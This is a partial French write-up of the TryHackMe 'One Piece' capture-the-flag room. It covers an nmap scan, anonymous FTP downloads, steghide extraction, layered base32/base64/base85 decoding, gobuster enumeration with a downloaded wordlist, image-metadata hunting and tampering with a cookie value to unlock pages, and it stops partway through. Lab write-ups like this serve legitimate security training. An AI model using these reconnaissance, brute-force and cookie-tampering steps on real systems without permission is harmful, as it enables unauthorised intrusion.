# One Piece #

## Task 1 Set Sail ##

## Task 2 Road Poneglyphs ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.20.40 onepiece.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A onepiece.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-07 19:46 CEST
Nmap scan report for onepiece.thm (10.10.20.40)
Host is up (0.034s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             187 Jul 26  2020 welcome.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.228.66
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 01:18:18:f9:b7:8a:c3:6c:7f:92:2d:93:90:55:a1:29 (RSA)
|   256 cc:02:18:a9:b5:2b:49:e4:5b:77:f9:6e:c2:db:c9:0d (ECDSA)
|_  256 b8:52:72:e6:2a:d5:7e:56:3d:16:7b:bc:51:8c:7b:2a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: New World
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=9/7%OT=21%CT=1%CU=36352%PV=Y%DS=2%DC=T%G=Y%TM=6137A5D3
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=A)SEQ(
OS:SP=100%GCD=1%ISR=108%TI=Z%II=I%TS=A)OPS(O1=M506ST11NW6%O2=M506ST11NW6%O3
OS:=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11NW6%O6=M506ST11)WIN(W1=68DF%W2=6
OS:8DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M506NNSNW
OS:6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   33.90 ms 10.9.0.1
2   31.90 ms onepiece.thm (10.10.20.40)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.18 seconds
```

D'après le scan de nmap on trouve plusieurs services : 
Le service FTP sur le port 21.   
Le service SSH sur le port 22.   
Le service HTTP sur le port 80.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ftp onepiece.thm 
Connected to onepiece.thm.
220 (vsFTPd 3.0.3)
Name (onepiece.thm:tim): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 0        0            4096 Jul 26  2020 .
drwxr-xr-x    3 0        0            4096 Jul 26  2020 ..
drwxr-xr-x    2 0        0            4096 Jul 26  2020 .the_whale_tree
-rw-r--r--    1 0        0             187 Jul 26  2020 welcome.txt
226 Directory send OK.
ftp> get welcome.txt
local: welcome.txt remote: welcome.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for welcome.txt (187 bytes).
226 Transfer complete.
187 bytes received in 0.00 secs (1.8772 MB/s)
ftp> cd .the_whale_tree
250 Directory successfully changed.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jul 26  2020 .
drwxr-xr-x    3 0        0            4096 Jul 26  2020 ..
-rw-r--r--    1 0        0            8652 Jul 26  2020 .road_poneglyph.jpeg
-rw-r--r--    1 0        0            1147 Jul 26  2020 .secret_room.txt
226 Directory send OK.
ftp> get .road_poneglyph.jpeg
local: .road_poneglyph.jpeg remote: .road_poneglyph.jpeg
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .road_poneglyph.jpeg (8652 bytes).
226 Transfer complete.
8652 bytes received in 0.00 secs (33.2709 MB/s)
ftp> get .secret_room.txt
local: .secret_room.txt remote: .secret_room.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .secret_room.txt (1147 bytes).
226 Transfer complete.
1147 bytes received in 0.00 secs (1.8958 MB/s)
```

Le service FTP fonctionne en mode anonymous, on trouve 3 fichiers que l'on télécharge.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat welcome.txt 
Welcome to Zou. It is an island located on the back of a massive, millennium-old elephant named Zunesha that roams the New World.
Except this, there is not much to say about this island.

tim@kali:~/Bureau/tryhackme/write-up$ cat .secret_room.txt 
Inuarashi: You reached the center of the Whale, the majestic tree of Zou.
Nekomamushi: We have hidden this place for centuries.
Inuarashi: Indeed, it holds a secret.
Nekomamushi: Do you see this red stele ? This is a Road Poneglyph.
Luffy: A Road Poneglyph ??
Inuarashi: There are four Road Poneglyphs around the world. Each of them gives one of the key to reach Laugh Tale and to find the One Piece.
Luffy: The One Piece ?? That's my dream ! I will find it and I will become the Pirate King !!!
Nekomamushi: A lot have tried but only one succeeded over the centuries, Gol D Roger, the former Pirate King.
Inuarashi: It is commonly known that both Emperors, Big Mom and Kaido, own a Road Poneglyph but no one knows where is the last one.
Nekomamushi: The other issue is the power of Big Mom and Kaido, they are Emperor due to their strength, you won't be able to take them down easily.
Luffy: I will show them, there can be only one Pirate King and it will be me !!
Inuarashi: There is another issue regarding the Road Poneglyph.
Nekomamushi: They are written in an ancient language and a very few people around the world can actually read them. 
```

Dans les fichiers texte on ne trouve pas grand chose. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ steghide extract -sf .road_poneglyph.jpeg 
Entrez la passphrase: 
�criture des donn�es extraites dans "road_poneglyphe1.txt".
tim@kali:~/Bureau/tryhackme/write-up$ cat road_poneglyphe1.txt 
FUWS2LJNEAWS2LJNFUQC4LJNFUWSALRNFUWS2IBNFUWS2LJAFUWS2LJNEAXC2LJNFUQC4LJNFUWQULJNFUWS2IBNFUWS2LJAFYWS2LJNEAXC2LJNFUQC2LJNFUWSALJNFUWS2IBOFUWS2LJAFYWS2LJNBIWS2LJNFUQC2LJNFUWSALRNFUWS2IBNFUWS2LJAFUWS2LJNEAWS2LJNFUQC2LJNFUWSALJNFUWS2CRNFUWS2LJAFUWS2LJNEAXC2LJNFUQC4LJNFUWSALJNFUWS2IBOFUWS2LJAFUWS2LJNEAWS2LJNFUFC2LJNFUWSALJNFUWS2IBOFUWS2LJAFYWS2LJNEAXC2LJNFUQC2LJNFUWSALJNFUWS2IBNFUWS2LIKFUWS2LJNEAWS2LJNFUQC4LJNFUWSALJNFUWS2IBNFUWS2LJAFUWS2LJNEAWS2LJNFUQC2LJNFUWQULJNFUWS2IBNFUWS2LJAFYWS2LJNEAXC2LJNFUQC2LJNFUWSALRNFUWS2IBNFUWS2LJAFYWS2LJNBIWS2LJNFUQC2LJNFUWSALRNFUWS2IBOFUWS2LJAFUWS2LJNEAXC2LJNFUQC2LJNFUWSALJNFUWS2CRNFUWS2LJAFUWS2LJNEAXC2LJNFUQC2LJNFUWSALJNFUWS2IBNFUWS2LJAFUWS2LJNEAWS2LJNFUFC2LJNFUWSALJNFUWS2IBOFUWS2LJAFYWS2LJNEAWS2LJNFUQC4LJNFUWSALJNFUWS2IBOFUWS2LIKFUWS2LJNEAWS2LJNFUQC4LJNFUWSALRNFUWS2IBOFUWS2LJAFUWS2LJNEAWS2LJNFUQC2LJNFUWQULJNFUWS2IBNFUWS2LJAFYWS2LJNEAWS2LJNFUQC2LJNFUWSALJNFUWS2IBNFUWS2LJAFUWS2LJNBIWS2LJNFUQC2LJNFUWSALRNFUWS2IBOFUWS2LJAFUWS2LJNEAXC2LJNFUQC4LJNFUWSALJNFUWS2CRNFUWS2LJAFUWS2LJNEAXC2LJNFUQC4LJNFUWSALRNFUWS2IBNFUWS2LJAFUWS2LJNEAXC2LJNFUFC2LJNFUWSALJNFUWS2IBOFUWS2LJAFUWS2LJNEAWS2LJNFUQC2LJNFUWSALJNFUWS2IBNFUWS2LIKFUWS2LJNEAWS2LJNFUQC4LJNFUWSALRNFUWS2IBNFUWS2LJAFUWS2LJNEAXC2LJNFUQC4LJNFUWQULJNFUWS2IBNFUWS2LJAFYWS2LJNEAXC2LJNFUQC4LJNFUWSALJNFUWS2IBNFUWS2LJAFYWS2LJNBIWS2LJNFUQC2LJNFUWSALRNFUWS2IBNFUWS2LJAFUWS2LJNEAWS2LJNFUQC2LJNFUWSALJNFUWS2CRNFUWS2LJAFUWS2LJNEAXC2LJNFUQC4LJNFUWSALJNFUWS2IBOFUWS2LJAFYWS2LJNEAWS2LJNFUFC2LJNFUWSALJNFUWS2IBOFUWS2LJAFYWS2LJNEAXC2LJNFUQC2LJNFUWSALJNFUWS2IBOFUWS2LIKFUWS2LJNEAWS2LJNFUQC4LJNFUWSALJNFUWS2IBNFUWS2LJAFUWS2LJNEAWS2LJNFUQC2LJNFUWQULJNFUWS2IBNFUWS2LJAFYWS2LJNEAXC2LJNFUQC2LJNFUWSALJNFUWS2IBOFUWS2LJAFYWS2LJNBIWS2LJNFUQC2LJNFUWSALRNFUWS2IBOFUWS2LJAFUWS2LJNEAWS2LJNFUQC4LJNFUWSALJNFUWS2CRNFUWS2LJAFUWS2LJNEAXC2LJNFUQC2LJNFUWSALJNFUWS2IBNFUWS2LJAFUWS2LJNEAWS2LJNFUFC2LJNFUWSALJNFUWS2IBOFUWS2LJAFYWS2LJNEAWS2LJNFUQC4LJNFUWSALJNFUWS2IBOFUWS2LIKFUWS2LJNEAWS2LJNFUQC4LJNFUWSALRNFUWS2IBNFUWS2LJAFYWS2LJNEAWS2LJNFUQC2LJNFUWQULJNFUWS2IBNFUWS2LJAFYWS2LJNEAWS2LJNFUQC2LJNFUWSALJNFUWS2IBNFUWS2LJAFUWS2LJNBIWS2LJNFUQC2LJNFUWSALRNFUWS2IBOFUWS2LJAFUWS2LJNEAWS2LJNFUQC4LJNFUWSALRNFUWS2CRNFUWS2LJAFUWS2LJNEAXC2LJNFUQC4LJNFUWSALJNFUWS2IBNFUWS2LJAFYWS2LJNEAWS2LJNFUFC2LJNFUWSALJNFUWS2IBOFUWS2LJAFUWS2LJNEAWS2LJNFUQC2LJNFUWSALJNFUWS2IBNFUWS2LIK
```

Dans l'image il y a un fichier.
Le fichier est chiffré.  



J'ai essayé de décoder le fichier j'arrive à rien.   

**What is the name of the 1st pirate you meet navigating the Apache Sea?**

La réponse est : The Whale  


Sur la page principale du site on trouve pas grand chose.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://onepiece.thm/ -s | grep  '<!-'
        <!--J5VEKNCJKZEXEUSDJZEE2MC2M5KFGWJTJMYFMV2PNE2UMWLJGFBEUVKWNFGFKRJQKJLUS5SZJBBEOS2FON3U4U3TFNLVO2ZRJVJXARCUGFHEOS2YKVWUWVKON5HEOQLVKEZGI3S2GJFEOSKTPBRFAMCGKVJEIODQKJUWQ3KMIMYUCY3LNBGUWMCFO5IGYQTWKJ4VMRK2KRJEKWTMGRUVCMCKONQTGTJ5-->
```

Dans le code source de la page on trouve un chaîne encodée.   



On décode la chaîne qui est en base32-\>base64-\>base85.   
Le résultat est : Nami ensures there are precisely 3472 possible places where she could have lost it.  

Dans la page on nous de dit de chercher Log Pose et qu'il y a 3472 possible places.   



En faisant un recherche sur github avec Log Pose on trouve ce dépot.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/1FreyR/LogPose/master/LogPose.txt -nv
2021-09-07 20:38:03 URL:https://raw.githubusercontent.com/1FreyR/LogPose/master/LogPose.txt [36454/36454] -> "LogPose.txt" [1]

tim@kali:~/Bureau/tryhackme/write-up$ wc LogPose.txt 
 3472  3472 36454 LogPose.txt

tim@kali:~/Bureau/tryhackme/write-up$ head LogPose.txt 
031980
031980
03198027
03198027
0319803
0319803
0319807
0319807
03198080
03198080

```

On télécharge le fichier on voit qu'il possède 3472 ligne, que le fichier est un sorte de liste de nombres.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://onepiece.thm -w ./LogPose.txt  -x html,txt -q
/dr3ssr0s4.html       (Status: 200) [Size: 3985]
```

Avec gobuster et LogPose on trouve un autre page sur le site.  



**What is the name of the 1st pirate you meet navigating the Apache Sea?**

Sur ce site on trouve la réponse à la deuxième question.  

Il y a une image cachée.  


```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo "6b 65 79 3a 69 6d 20 6f 6e 20 6f 74 69 20 6f 74 69" | hex2raw
key:im on oti oti
```



On trouve 2 clefs.  
imonotioti 
itoitonomi 



On décode le message.
C'est une impasse.   



On fouillant dans le code source dans le fichier css on trouve un autre image.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://onepiece.thm/king_kong_gun.jpg -nv
2021-09-07 21:21:18 URL:http://onepiece.thm/king_kong_gun.jpg [42582/42582] -> "king_kong_gun.jpg" [1]
tim@kali:~/Bureau/tryhackme/write-up$ exiftool king_kong_gun.jpg 
ExifTool Version Number         : 12.30
File Name                       : king_kong_gun.jpg
Directory                       : .
File Size                       : 42 KiB
File Modification Date/Time     : 2020:07:26 13:26:42+02:00
File Access Date/Time           : 2021:09:07 21:21:18+02:00
File Inode Change Date/Time     : 2021:09:07 21:21:18+02:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 72
Y Resolution                    : 72
Comment                         : Doflamingo is /ko.jpg
Image Width                     : 736
Image Height                    : 414
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 736x414
Megapixels                      : 0.305
```

On télécharge l'image et dans les méta données on trouve le chemin d'un autre fichier.   
Le nom du fichier est ko.jpg.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://onepiece.thm/ko.jpg -nv
2021-09-07 21:24:51 URL:http://onepiece.thm/ko.jpg [176494/176494] -> "ko.jpg" [1]

tim@kali:~/Bureau/tryhackme/write-up$ strings ko.jpg | tail -1
Congratulations, this is the Log Pose that should lead you to the next island: /wh0l3_c4k3.php
```

On télécharge le fichier, et dans le fichier on trouve une nouvelle page qui est : wh0l3_c4k3.php 



**What is the name of the 2nd island you reach navigating the Apache Sea?**

On trouve une nouvelle page ou on trouve le nom de la deuxième île.  

Réponse : Whole Cake

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://onepiece.thm/wh0l3_c4k3.php -s | grep '<!-'
        <!--Big Mom likes cakes-->
```

Dans le site le mot cake apparait souvant.  
Dans le code source de la  page Big Mom aime les cakes.   



On change la valeur du cookie NoCakeForYou en CakeForYour.    




On rafraichie la page et on trouve une nouvelle page qui est r4nd0m.html et le deuxième poneglyph.



**What is the name of the friend you meet navigating the Apache Sea?**   

Le nom de l'ami est : Buggy the Clown  

Le site nous propose 2 jeux.  

Le jeu de casse brique nous amène à rien.   
Même quand on gagne de façon legit il dit que l'on triche.   

Quand on regarde le code source du deuxième jeu. 



On trouve un autre lien : 0n1g4sh1m4.php 

